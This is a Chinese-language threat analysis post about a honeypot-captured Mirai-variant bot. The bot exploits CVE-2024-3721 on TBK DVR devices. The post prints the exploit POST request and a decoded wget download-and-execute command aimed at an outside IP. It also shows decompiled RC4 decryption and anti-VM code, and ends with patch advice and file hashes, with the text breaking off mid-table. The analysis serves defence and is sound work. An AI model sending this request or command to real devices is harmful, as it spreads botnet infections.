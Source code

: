 #  蜜罐捕获一个自动化漏洞攻击的机器人程序  
 二进制空间安全   2025-07-09 08:25  
  
将二进制空间安全设为"星标⭐️"  
  
第一时间收到文章更新  
### 背景  
  
  
在脆弱的系统中安装部署机器人程序是利用安全漏洞自动化扩大攻击范围的一种常用方式, 许多自动化机器人持续在互联网上搜索运行流行服务的服务器和设备中的已知漏洞。这些机器人常携带远程代码执行（RCE）漏洞利用工具，针对 HTTP 服务，从而允许攻击者在 GET 或 POST 请求中嵌入 Linux 命令。  
  
最近某个蜜罐服务捕获到一种利用 CVE-2024-3721 部署机器人程序的行为。攻击对象是基于 DVR 的监控系统。DVR 设备用于记录摄像头数据，由众多制造商广泛使用，并支持远程管理。  
###   
### 漏洞利用  
  
  
在对Linux 蜜罐系统的日志进行审查时, 有一条与 CVE-2024-3721 相关的异常请求行。该漏洞允许攻击者在未经过授权的情况下，通过特定的 POST 请求，在 TBK DVR 设备上执行系统命令，作为攻击的入口点：  
```
"POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1" 200 1671 "-" "Mozila/5.0"
```  
  
该 POST 请求中包含一个恶意命令，它是单行 shell 脚本，用于在被攻击机器上下载并执行一个 ARM32 架构的二进制文件。  
  
解码还原后的命令行如下:  
```
cd /tmp; rm arm7; wget http://42.112.26[.]36/arm7; chmod 777 *; ./arm7 tbk
```  
  
典型的机器人感染过程通常包括 shell 脚本初步侦查目标机器的架构，并选择对应的二进制文件。但在本次攻击中，由于目标仅为支持 ARM32 的设备，因此无需进行侦查阶段。  
### 技术分析  
  
  
经过初步分析, 该DVR机器人程序来自Mirai源码的修改, Mirai僵尸网络源码在十年前就有公开, 源码参考地址:  
https://github.com/jgamblin/Mirai-Source-Code  
 。  
  
该机器人程序在源码基础上引入了一些其它特性, 例如: 使用RC4进行字符串加密、虚拟机检测技术(Anti-VM)、反模拟器技术(Anti-emulation)。这里主要剖析一下该机器人程序引入的一些新特性。  
  
该机器人程序在数据解密过程中实现了一个简单的RC4算法, RC4密钥通过XOR加密, 解密后, 得到解密密钥明文:  
6e7976666525a97639777d2d7f303177  
。每解密一条数据，就会插入到一个自定义的   
DataDecrypted  
 结构向量中，这是一个简单的字符串列表, 以下是实现的关键代码:  
```
int __fastcall DecryptNewtData(int index, char *enc_data, int string_length)
{
    int i;                  
    List *Strlist;         
    int DecryptedString;  
    int DecryptedData;      
    char RC4_Key[48];    // [5pt8h] [bp-30h] BYREF

    i = index;
    Strlist = DecryptedStringList;
    DecryptedString = malloc(string_length + 1);
    Strlist[i].size = string_length;
    Strlist[i].addr = (char *)DecryptedString;

    // 解密 RC4 key
    DecryptKey(RC4_Key);

    DecryptedData = malloc(string_length);

    // 解密字符串并添加到列表
    RC4_Decrypt(RC4_Key, 16, (int)enc_data, DecryptedData, string_length);
    memcpy((int)Strlist[i].addr, DecryptedData, string_length);
    Strlist[i].addr[string_length] = 0;

    return free(DecryptedData);
}
```  
  
恶意软件在需要特定字符串时，会访问全局的解密数据链表, 以下是添加解密后的字符串到全局列表:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0nJYWtDC09fyOJqoR72m2tr8ZaGXR6OkiaCqabDGdtkdEhJHDrRo5M5uJa17MGCfe4aEq2jAd3wpg9iaKS4MZLKg/640?wx_fmt=png&from=appmsg "")  
###   
### 反虚拟机和反模拟器  
  
  
为检测自己是否运行在虚拟机（VM）或 QEMU 环境中，恶意软件会遍历所有进程，查找是否存在 VMware 或 QEMU-arm 的相关进程。列出运行中进程的方法是打开 Linux 的   
/proc  
 文件系统目录。  
  
每个进程 ID（PID）都有自己的文件夹，里面包含诸如   
cmdline  
 的信息，可用来查看进程的启动命令。通过这些信息，恶意软件判断是否有进程与 VMware 或 QEMU-arm 有关。其关键代码如下:  
```
proc_dir = (struct dirent *)opendir((char *)DecryptedStringList[10].addr); // 打开"/proc"目录
if (!proc_dir)
    exit(0);

while (1) {
    v4 = readdir(proc_dir);
    if (!v4) {
        closedir(proc_dir);
        return;
    }

    if ((*((_WORD *)off_2914C + *(unsigned __int8 *)(v4 + 11)) & 8) != 0) {
        sprintf((int)cmdline_path, 256, "/proc/%s/cmdline", (const char *)(v4 + 11)); // 获取完整的命令行
        cmdline_file = fopen(cmdline_path, "r");

        if (cmdline_file) {
            if (fgets(line, 256, cmdline_file) && strequal(line, (char *)DecryptedStringList[102].addr)) {  // 校验是否是"qemu-arm"
                sub_130D4((unsigned __int6 *)cmdline_file, v2, v3);
                closedir(proc_dir);
                goto Exit;
            }
            sub_130D4((unsigned __int6 *)cmdline_file, v2, v3);
        }
    }
}
```  
  
该恶意程序还会检查自己的运行目录是否在预设的允许列表中：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0nJYWtDC09fyOJqoR72m2tr8ZaGXR6OkkODibkfYrD2XIXHSxjaafibMvWjBEFjyyCEmc9bZfInK5UjNibHpHUdDw/640?wx_fmt=png&from=appmsg "")  
  
在这些检查成功通过后, 机器人才会继续执行, 为接收指令做准备。  
###   
### 结论  
  
  
攻击者利用未打补丁的物联网设备和服务器中的已知安全漏洞，加上针对基于 Linux 系统的恶意软件的大量使用，导致不断有大量机器人在互联网中搜索可供感染的设备。  
  
这些机器人程序的主要目的，是实施使网站和服务瘫痪的 DDoS 攻击。大多数机器人在设备重启后不会继续存活，因为某些设备固件不允许文件系统发生更改。为了防范这类感染，我们建议在安全补丁发布后及时更新易受攻击的设备。如果设备已经暴露并确实存在漏洞，也可以考虑恢复出厂设置。  
  
### 威胁指标  
  
  
文件指纹:  
<table><tbody><tr><td data-colwidth="191"><section><span leaf="">Md5</span></section></td><td data-colwidth="191"><section><span leaf="">SHA1</span></section></td><td data-colwidth="191"><section><span leaf="">SHA256</span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">011A406E89E603E93640B10325EBBDC8</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">22B2333298B7CC9913C1EAF422DBE8830840D3E0</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">7461C0F8FEAC69A39586C4C1ECFEB32627C5A83043721BA0144479EFC0F036A1</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">24FD043F9175680D0C061B28A2801DFC</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">961C5CB9288292A58C3DF007948DBB8E3602192D</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">438DC2A85E37356EEFD2D40AC7BAFA8C3AD273DD36991D4B155208C3A3D460B5</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">29B83F0AAE7ED38D27EA37D26F3C9117</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">02A9B16A19A03E75D42D1C9C83FA4A5414CE26DC</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">F3989E7CCA7D17C909C5F53945C7846D2D269D32113042BF535285C4D75624E6</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2E9920B21DF472B4DD1E8DB4863720BF</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">9408BA21116C5904E9B1D910F96DAEF5646E2DCE</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">1FEFA03738B8ED2768F9AAF2B0E4CA4098FEF7122F0157AB010686D7345B2E62</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">3120A5920F8FF70EC6C5A45D7BF2ACC8</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">6C4CBD259AA9D2A7F858AE607AA36DA928F9268E</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">9AE1955B9DE5E4E6B23E55D2AAB3230FF3A6B5C723D77A6653B2145719DC2EB6</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">3C2F6175894BEE698C61C6CE76FF9674</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">69ADF42EA2216846631A85791B653B6CCBC45FB4</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">86EF39910B9361F012F889146E16B2E279A07465FE3E2F9B493EF0534A5C66C0</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">45A41CE9F4D8BB2592E8450A1DE95DCC</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">5160989BA4F8A75EF4E09DEA0FDA3BF7A2211FB7</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">29754B61A1CCE8C965BBC98EFB125991B8B605DEA9F3394C277092F30A109BDB</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">524A57C8C595D9D4CD364612FE2F057C</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">C57A8EF11EC531EAFD62DCB6C3AE558EA59BED08</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">3BDBED482342487E08F5266E1A9B6478FCD0BE645EDCFB1E8C6DDA1DAC73CCE9</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">74DEE23EAA98E2E8A7FC355F06A11D97</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">152B73F3E91EBA572CBD8470A0F01ADF363B7D64</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">B2BE07ED781BCDEF614CD7C1461D81BFD8DF2BC7EB11B6BFB5B202AF881D727C</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">761909A234EE4F1D856267ABE30A3935</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2E95BBF3069F603AE7FF882770F49DC36223A626</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">DD54E4A0220B6AFBE0DBEE66E32AF3FE2012CC37023044A683E8E0C98579A059</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">7EB3D72FA7D730D3DBCA4DF34FE26274</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 